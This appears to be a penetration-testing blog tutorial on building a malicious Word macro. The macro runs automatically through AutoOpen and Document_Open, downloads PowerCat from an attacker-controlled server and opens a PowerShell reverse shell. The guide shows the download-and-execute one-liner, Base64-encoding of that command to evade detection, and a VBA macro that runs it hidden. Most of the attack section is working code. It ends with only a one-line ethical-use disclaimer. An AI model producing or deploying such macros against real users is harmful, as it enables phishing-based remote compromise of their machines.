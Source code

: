 ```yaml
---
layout: post
title: "Windows Macro Exploitation"
date: 2024-11-01
categories: Client-Side
---
```


# Windows Macro Exploitation Guide

## Table of Contents

1. [Introduction to Microsoft Word Macros](#introduction-to-microsoft-word-macros)
2. [Creating a Malicious Macro](#creating-a-malicious-macro)
3. [Automating Macro Execution](#automating-macro-execution)
4. [Executing a Reverse Shell with PowerCat](#executing-a-reverse-shell-with-powercat)
5. [Summary and Considerations](#summary-and-considerations)

---

## Introduction to Microsoft Word Macros

Microsoft Word macros allow users to automate tasks in Word and Excel using Visual Basic for Applications (VBA). For ethical penetration testing, macros can be used as a vector to execute commands on a target system, provided the target enables macros when opening the document. This guide covers creating a Word macro to launch a reverse shell upon document opening.

### Key Points

- **File Types**: Use `.doc` or `.docm` formats as `.docx` does not support embedded macros.
- **Language**: VBA, with access to ActiveX objects and Windows Script Host, enables system-level command execution.
  
## Creating a Malicious Macro

1. **Create and Save Document**:
   - Open Word, create a blank document, and save it as `examplemacro.doc`.

2. **Access the Macro Editor**:
   - Go to `View > Macros > View Macros`.
   - Enter `ExampleMacro` as the macro name and select `examplemacro.doc` in the dropdown, then click **Create**.

3. **Define the Macro Code**:
   - In the Visual Basic for Applications (VBA) editor, enter the following code to launch PowerShell:

     ```vba
     Sub ExampleMacro()
         CreateObject("Wscript.Shell").Run "powershell"
     End Sub
     ```

4. **Save and Close**:
   - Save the VBA script and close the editor.

## Automating Macro Execution

To automatically execute the macro when the document opens, add `AutoOpen` and `Document_Open` subroutines. These trigger the `ExampleMacro` function on opening.

```vba
Sub AutoOpen()
    ExampleMacro
End Sub

Sub Document_Open()
    ExampleMacro
End Sub

Sub ExampleMacro()
    CreateObject("Wscript.Shell").Run "powershell"
End Sub
```

## Executing a Reverse Shell with PowerCat

1. **Prepare PowerCat Command**:
   - The goal is to establish a reverse shell with PowerCat, a PowerShell tool for creating networking shells.

2. **Encode the PowerShell Command in Base64**:
   - Use a command to download and execute PowerCat. For example:

     ```powershell
     IEX(New-Object System.Net.WebClient).DownloadString('http://[YOUR_SERVER_IP]/powercat.ps1');powercat -c [YOUR_LISTENING_IP] -p [YOUR_PORT] -e powershell
     ```

   - Encode this command in Base64 to avoid detection issues:

     ```bash
     echo -n "IEX(New-Object System.Net.WebClient).DownloadString('http://[YOUR_SERVER_IP]/powercat.ps1');powercat -c [YOUR_LISTENING_IP] -p [YOUR_PORT] -e powershell" | iconv -t utf-16le | base64
     ```

3. **Split the Encoded Command for VBA**:
   - Split the Base64 string into chunks (e.g., 50 characters) for easier management in VBA:

     ```python
     str = "base64-encoded-string"
     n = 50
     for i in range(0, len(str), n):
         print("Str = Str + " + '"' + str[i:i+n] + '"')
     ```

4. **Modify Macro to Use PowerCat**:
   - Update the `ExampleMacro` function to use the PowerCat reverse shell command:

     ```vba
     Sub ExampleMacro()
         Dim Str As String
         Str = Str + "powershell.exe -nop -w hidden -enc <base64-string>"
         CreateObject("Wscript.Shell").Run Str
     End Sub
     ```

5. **Test Execution**:
   - Start a Python web server in the directory containing `powercat.ps1` and a Netcat listener on the specified port `[YOUR_PORT]`.
   - Open the document, enable macros, and verify that the reverse shell connection is established.

## Summary and Considerations

- **Document Setup**: Macros are enabled by saving the document as `.doc` or `.docm`.
- **Automation**: Using `AutoOpen` and `Document_Open` enables macros automatically upon document opening.
- **Execution**: Base64 encoding bypasses certain restrictions and simplifies passing complex PowerShell commands.
- **Ethical Use**: Only use this method in controlled, authorized testing environments to avoid legal repercussions.
